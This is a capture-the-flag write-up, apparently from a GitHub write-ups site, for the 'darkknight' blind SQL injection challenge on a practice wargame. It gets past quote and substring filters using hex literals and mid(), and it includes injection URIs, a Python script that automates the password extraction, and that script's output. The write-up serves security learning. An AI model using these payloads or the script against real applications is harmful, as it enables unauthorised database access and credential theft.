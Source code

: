 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 12
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6cde625d-39f4-4536-bdd2-e4bacc1b7d44)

We are provided with the SQL query:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='{$_GET[pw]}' AND no={$_GET[no]}
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the message `Hello {$result[id]}`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

This challenge also filters out the quotes character. 

We have to use Hexadecimal representations instead of strings. Alternatively, we can use the double-quote (`"`) character to bypass the filter.

## Blind SQL Injection

### Retrieving the password length

If we provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/70be2f68-c530-4dcc-a541-a9b8938765df)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/a1ed7953-f711-4a32-9573-2eeb70fb0e4b)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the length of the `pw` column is 8.

### Leaking the password

This challenge also filters the `substring()` function.

Therefore, in order to leak the password, we will have to use the `mid()` function.
#### `mid()`

![3](https://github.com/Kunull/Write-ups/assets/110326359/2a05edee-9e1c-43b3-8970-4ea391376a28)

If we provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/89f8306f-902d-4bdc-bd15-4357ce6586b3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the first character of the `pw` for `id=admin` is `0x30` which is `0`.

We can move onto the second character:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/227d4a99-7fca-41ba-a579-55a57325abea)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the first character of the `pw` for `id=admin` is not `0x30` which is `0`.

We can keep repeating this process until we get all the eight characters of the admin password:

```
0b70ea1f
```

### Script

We can automate the entire process using a script.

```python title="darkknight_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'd6k46orbbik0hppkki48hqdg9k'}
url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
password_length = 0

for x in range(0, 10):
  payload = f'0 OR id LIKE "admin" AND length(pw) LIKE {x}'
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?no={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f'[!] Payload: ?no={payload}')
print(f'[!] Payload (URL encoded): ?no={encoded_payload}')
print(f'[!] Password length: {password_length}')

password = ''
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f'0 OR id LIKE "admin" AND mid(pw, {index}, 1) LIKE "{char}"'
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?no={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if 'Hello admin' in response.text:
      password += char
      print()
      print(f'[+] Payload: ?no={payload}')
      print(f'[+] Payload (URL encoded): ?no={encoded_payload}')
      print(f'[+] Character at index {index}: {char}')
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
python .\losqli.py

[!] Payload: ?no=0 OR id LIKE "admin" AND length(pw) LIKE 8
[!] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+length%28pw%29+LIKE+8
[!] Password length: 8

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 1, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+1%2C+1%29+LIKE+%220%22
[+] Character at index 1: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 2, 1) LIKE "b"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+2%2C+1%29+LIKE+%22b%22
[+] Character at index 2: b

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 3, 1) LIKE "7"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+3%2C+1%29+LIKE+%227%22
[+] Character at index 3: 7

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 4, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+4%2C+1%29+LIKE+%220%22
[+] Character at index 4: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 5, 1) LIKE "e"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+5%2C+1%29+LIKE+%22e%22
[+] Character at index 5: e

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 6, 1) LIKE "a"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+6%2C+1%29+LIKE+%22a%22
[+] Character at index 6: a

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 7, 1) LIKE "1"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+7%2C+1%29+LIKE+%221%22
[+] Character at index 7: 1

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 8, 1) LIKE "f"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+8%2C+1%29+LIKE+%22f%22
[+] Character at index 8: f

[!] Extracted password: 0b70ea1f
[!] Final payload: ?pw=0b70ea1f
```

Now, we can provide password URI:

```
?pw=0b70ea1f
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='0b70ea1f' AND no=
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/57213d19-deff-48b5-9681-d2cc8de28edf)
